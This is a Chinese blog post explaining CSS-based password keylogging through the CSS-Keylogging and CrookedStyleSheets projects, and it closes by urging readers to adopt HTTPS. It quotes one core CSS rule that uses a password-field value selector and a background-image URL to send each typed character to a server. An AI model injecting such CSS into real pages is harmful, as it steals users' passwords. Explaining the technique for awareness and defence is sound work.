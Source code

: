 ```yaml
---
title: 使用 css 获取用户密码
subtitle: 使用 css 去捕获用户密码，最容易忽视的往往是最容易出现问题的，安全问题不容小觑。
date: 2018-02-23
cover: https://blog.static.minfive.com/post/18-02-23/112054010556572.png
categories: 日常学习
tags:
    - css
    - 安全

author:
  nick: minfive
  link: 'https://github.com/Mrminfive'
---
```


### 前言

新年工作第一天，在 github 上闲逛，发现了一个很有趣的项目，叫 [CSS-Keylogging][CSS-Keylogging]，这是一个演示如何用 css 去获取用户输入的密码的项目，这个项目与一两个月前的另外一个很火的项目 [CrookedStyleSheets][CrookedStyleSheets] 类似，甚至于有可能 [CSS-Keylogging][CSS-Keylogging] 就是受 [CrookedStyleSheets][CrookedStyleSheets] 启发才创建的。

### 不一样的 css

说到 css，大多数人的第一印象基本上就是用来配置界面样式的，甚至于连语言都称不上，但随着 web 技术的不停发展，其所具有的能力也与日俱新，不再是当初那个仅仅满足最基本布局需求的层叠样式表了，至于新的属性新的功能点笔者也了解不全，在这里也不便展开了。

话题回到不一样的 css 上，github 上 [jbtronics][jbtronics] 给出了这样一份答案 [CrookedStyleSheets][CrookedStyleSheets]，在这里笔者直接给上该项目的[中文文档][CrookedStyleSheetsDoc]，该文档上有一段关于输入监测的段落，请详细阅读完，如果早已看过请跳过继续看本文的后续部分。

### css 监听键盘记录

[CSS-Keylogging][CSS-Keylogging] 项目使用 css 监听键盘记录的方式一致，基本上是通过 css 选择器去实现功能，[CSS-Keylogging][CSS-Keylogging] 更为巧妙的使用多重选择器去捕获相应的按键事件。

核心代码如下:

``` css
input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }
```

解释如下：

当 type 为 'password' 的输入框的输入的最后一个字符为 '1' 时使用 url 为 `http://localhost:3000/1` 的背景图，css 在这种情况下会尝试进行 get 请求获取资源，这样的话，服务端就能接收到来至客户端发送的 get 请求。

当 `value$="1"` 时，我们可以监听用户输入 `1`，那如果我们监听键盘上所有的按键字符，那我们是不是就可以监听用户的所有按键输入了？答案是可以，该项目使用 go 脚本遍历 ascii 码表，将所有键盘可输入按键字符均进行捕获，生成如下样式表：

![code][code]

当然也可以用使用 nodejs 去生成样式表，至今不明白作者为什么用 node 搭服务器然后用 go 写脚本。。。有兴趣的同学可以将项目 clone 下来跑起来试试。

### 总结

为了避免有目的性的劫持注入，请尽快升级 https ，预防这种情况的发生，网络安全无处不在，希望不要选择性的去忽视它。


[CSS-Keylogging]: https://github.com/maxchehab/CSS-Keylogging
[CrookedStyleSheets]: https://github.com/jbtronics/CrookedStyleSheets
[jbtronics]: https://github.com/jbtronics
[CrookedStyleSheetsDoc]: https://github.com/jbtronics/CrookedStyleSheets/blob/master/docs/README.zh.md
[code]: https://blog.static.minfive.com/post/18-02-23/code.png
